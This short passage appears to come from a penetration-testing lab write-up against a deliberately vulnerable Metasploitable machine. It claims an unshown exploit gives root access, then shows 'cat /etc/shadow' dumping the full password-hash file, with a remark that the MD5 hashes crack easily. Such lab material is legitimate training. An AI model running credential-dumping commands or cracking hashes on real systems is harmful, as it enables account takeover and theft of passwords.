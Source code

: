 - 📌 This exploit gives back direct `root` access.

```bash
# Dump hashes
cat /etc/shadow
```

```bash
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::

# MD5 hashes can be cracked easily
```

------

